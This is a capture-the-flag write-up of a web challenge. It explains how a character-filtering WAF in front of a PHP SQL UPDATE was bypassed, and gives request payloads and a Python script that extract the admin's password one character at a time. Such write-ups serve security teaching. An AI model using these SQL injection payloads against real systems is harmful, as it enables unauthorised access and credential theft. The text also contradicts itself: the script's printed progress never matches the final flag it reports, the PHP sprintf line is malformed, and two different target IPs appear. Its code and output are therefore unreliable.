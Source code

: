 ## 77777 2 (Web, 208pt)

> Contestants won't influence each other while solving the challenge.
> 
> http://47.52.137.90:20000

The task was quite similar to [../77777-104/README.md](77777) with some small differences.

The About tab has changed a bit.

```
U can update my points in Profile.

and And the flag is `admin's pw`:)
```

The `update_point()` function remains exactly the same but we guess that the `waf()` function is less permissive this time.

```php
function update_point($p, $points){
    global $link;
    $q = sprintf("UPDATE users SET points=%d%s, $p, waf($points)");
    if(!$query = mysqli_query($link, $q)) return FALSE;
    return TRUE;
}
if(!update_point($_POST['flag'], $_POST['hi']))
    echo 'sorry';
```

Fuzzing the `waf()` for character limitations, we see that only the following characters are allowed:

```
[+]  0, 1, 6, 7, 8
[+]  a-z (not 'j')
[+]  A-Z (not 'J')
[+]  " # $ ' ( ) * + , - . : ; > ? @ [ \ ] _ { | }
[+]  \s
```

Some MySQL functions have also been restricted. What took more time in this challenge, was to realize that the column name that we had to extract was `pw` and not `password` as before (see About tab). After realing this, we issued the following request to determine password length.

```
POST / HTTP/1.1
Host: 47.75.14.48
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Connection: close

flag=1&hi=*length( pw )
```

The `waf()` function did not allow the `pw` keyword to be prefixed or followed by any characters apart from whitespaces. So, we put spaces before and after, to bypass it.

Knowing the length and having bypassed the `pw` filtering, we can retrieve full password using a payload such as:

```
flag=1&hi=*convert(hex(substr( pw ,BINARY_INDEX,1)),signed)
```

The solution is automated in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://47.52.137.90:20000/'

def extract_points(html):
    return re.search(r'<grey>My Points</grey> \| ([0-9]+)<br/>', html).group(1).strip()

def get_pw_len():
    d = {'flag': '1', 'hi': '*length( pw )'}
    resp = requests.post(_target, data=d)
    return int(extract_points(resp.text))

flag = ''
for i in range(1,get_pw_len()+1):
    d = {'flag': '1', 'hi': '*convert(hex(substr( pw ,0b{0:b},1)),signed)'.format(i)}
    resp = requests.post(_target, data=d)
    flag += chr(int(extract_points(resp.text), 16))
    print flag

print '[+] flag: N1CTF{{{}}}'.format(flag)
```

```
❯❯❯ python solve.py
h
ha
hah
haha
hahah
hahah7
hahah77
hahah777
hahah777a
hahah777a7
hahah777a7a
hahah777a7ah
hahah777a7aha
hahah777a7aha7
hahah777a7aha77
hahah777a7aha777
hahah777a7aha7777
hahah777a7aha77777
hahah777a7aha77777a
hahah777a7aha77777aa
hahah777a7aha77777aaa
hahah777a7aha77777aaaa
[+] flag: N1CTF{helloctfer23333}
```

